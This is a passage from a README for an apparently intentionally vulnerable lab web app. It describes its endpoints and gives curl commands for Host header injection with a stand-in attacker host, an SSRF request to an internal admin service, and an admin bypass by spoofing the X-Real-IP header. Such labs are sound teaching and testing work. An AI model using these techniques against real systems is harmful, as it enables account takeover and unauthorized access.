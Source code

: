 ### Network Configuration

- **External Access**: The main application binds to `0.0.0.0:65432` for network accessibility
- **Internal Service**: Binds only to `127.0.0.1:5001` to simulate internal network restrictions
- **Firewall**: Ensure port 65432 is accessible for remote testing

## Usage Guide

### Web Interface Navigation

1. **Home Page** (`/`)

   - Overview of available vulnerability demonstrations
   - Navigation to all testing endpoints

2. **Password Reset** (`/auth/reset`)

   - Demonstrates Host Header Injection
   - Interactive email preview functionality

3. **Admin Panel** (`/admin`)

   - Requires header manipulation for access
   - Displays sensitive user database when accessed

4. **URL Fetcher** (`/fetch-url`)
   - SSRF vulnerability testing interface
   - Real-time request/response analysis

### Command Line Testing

#### Host Header Injection Test

```bash
# Test password reset vulnerability
curl -X POST \
     -H "Host: evil.attacker.com" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "email=user1@example.com" \
     http://localhost:65432/auth/reset
```

#### SSRF Testing

```bash
# Test internal service access
curl -H "X-Forwarded-For: 127.0.0.1" \
     "http://localhost:65432/fetch-url?url=http://127.0.0.1:5001/internal-admin"
```

#### Admin Access Bypass

```bash
# Bypass admin authentication
curl -H "X-Real-IP: 127.0.0.1" \
     http://localhost:65432/admin
```
